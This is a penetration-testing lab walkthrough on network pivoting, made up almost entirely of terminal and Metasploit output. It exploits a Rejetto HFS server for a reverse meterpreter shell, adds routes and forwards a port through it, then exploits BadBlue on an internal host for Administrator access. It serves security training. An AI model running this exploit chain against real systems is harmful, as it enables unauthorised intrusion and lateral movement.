

# Pivoting

<figure><figcaption></figcaption></figure>

```sh
root@attackdefense:~# ping 10.5.21.20
PING 10.5.21.20 (10.5.21.20) 56(84) bytes of data.
64 bytes from 10.5.21.20: icmp_seq=1 ttl=125 time=2.54 ms
64 bytes from 10.5.21.20: icmp_seq=2 ttl=125 time=1.94 ms
^C
--- 10.5.21.20 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1002ms
rtt min/avg/max/mdev = 1.944/2.243/2.543/0.299 ms


root@attackdefense:~# ping 10.5.26.255
PING 10.5.26.255 (10.5.26.255) 56(84) bytes of data.
^C
--- 10.5.26.255 ping statistics ---
4 packets transmitted, 0 received, 100% packet loss, time 3059ms

```

```sh
root@attackdefense:~# nmap -sV -p80 10.5.21.20
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-19 19:42 IST
Nmap scan report for 10.5.21.20
Host is up (0.0021s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.74 seconds

```

```sh
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.5.21.20
rhosts => 10.5.21.20
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.19.2:4444 
[*] Using URL: http://0.0.0.0:8080/CEIWDzN
[*] Local IP: http://10.10.19.2:8080/CEIWDzN
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /CEIWDzN
[*] Sending stage (175174 bytes) to 10.5.21.20
[!] Tried to delete %TEMP%\mpJAtMq.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.19.2:4444 -> 10.5.21.20:49269) at 2024-01-19 19:43:25 +0530
[*] Server stopped.

meterpreter > 

```

```sh
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 14
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a05:1514
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 21
============
Name         : Amazon Elastic Network Adapter
Hardware MAC : 02:38:b2:3c:66:61
MTU          : 1500
IPv4 Address : 10.5.21.20
IPv4 Netmask : 255.255.240.0
IPv6 Address : fe80::ed9a:cc7c:bb84:e27e
IPv6 Netmask : ffff:ffff:ffff:ffff::

```

```sh
meterpreter > run autoroute -s 10.5.21.0/20

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.5.21.0/255.255.240.0...
[+] Added route to 10.5.21.0/255.255.240.0 via 10.5.21.20
[*] Use the -p option to list all active routes


meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.5.21.0          255.255.240.0      Session 1


meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/http/rejetto_hfs_exec) > search portscan

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/portscan/ftpbounce                               normal  No     FTP Bounce Port Scanner
   1  auxiliary/scanner/natpmp/natpmp_portscan                           normal  No     NAT-PMP External Port Scanner
   2  auxiliary/scanner/sap/sap_router_portscanner                       normal  No     SAPRouter Port Scanner
   3  auxiliary/scanner/portscan/xmas                                    normal  No     TCP "XMas" Port Scanner
   4  auxiliary/scanner/portscan/ack                                     normal  No     TCP ACK Firewall Scanner
   5  auxiliary/scanner/portscan/tcp                                     normal  No     TCP Port Scanner
   6  auxiliary/scanner/portscan/syn                                     normal  No     TCP SYN Port Scanner
   7  auxiliary/scanner/http/wordpress_pingback_access                   normal  No     Wordpress Pingback Locator


Interact with a module by name or index. For example info 7, use 7 or use auxiliary/scanner/http/wordpress_pingback_access

msf6 exploit(windows/http/rejetto_hfs_exec) > use 5
msf6 auxiliary(scanner/portscan/tcp) > set rhosts 10.5.26.255
rhosts => 10.5.26.255
msf6 auxiliary(scanner/portscan/tcp) > set ports 1-100
ports => 1-100
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 10.5.26.255:          - 10.5.26.255:80 - TCP OPEN
[*] 10.5.26.255:          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


meterpreter > portfwd add -l 1234 -p 80 -r 10.5.26.255 
[*] Local TCP relay created: :1234 <-> 10.5.26.255:80
```

```sh
root@attackdefense:~# nmap -sV -p1234 localhost
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-19 19:53 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000065s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
1234/tcp open  http    BadBlue httpd 2.7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```sh
meterpreter > background
[*] Backgrounding session 1...
msf6 auxiliary(scanner/portscan/tcp) > search badblue

Matching Modules
================

   #  Name                                       Disclosure Date  Rank   Check  Description
   -  ----                                       ---------------  ----   -----  -----------
   0  exploit/windows/http/badblue_ext_overflow  2003-04-20       great  Yes    BadBlue 2.5 EXT.dll Buffer Overflow
   1  exploit/windows/http/badblue_passthru      2007-12-10       great  No     BadBlue 2.72b PassThru Buffer Overflow


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/http/badblue_passthru

msf6 auxiliary(scanner/portscan/tcp) > use 1
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/badblue_passthru) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf6 exploit(windows/http/badblue_passthru) > set rhosts 10.5.26.255
rhosts => 10.5.26.255
msf6 exploit(windows/http/badblue_passthru) > run

[*] Trying target BadBlue EE 2.7 Universal...
[*] Started bind TCP handler against 10.5.26.255:4444
[*] Sending stage (175174 bytes) to 10.5.26.255
[*] Meterpreter session 2 opened (10.5.21.20:49434 -> 10.5.26.255:4444) at 2024-01-19 19:55:54 +0530

meterpreter > 

```

```
meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/http/badblue_passthru) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x86/windows  WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN  10.10.19.2:4444 -> 10.5.21.20:49269 (10.5.21.20)
  2         meterpreter x86/windows  ATTACKDEFENSE\Administrator @ ATTACKDEFENSE      10.5.21.20:49434 -> 10.5.26.255:4444 (10.5.26.255)


```
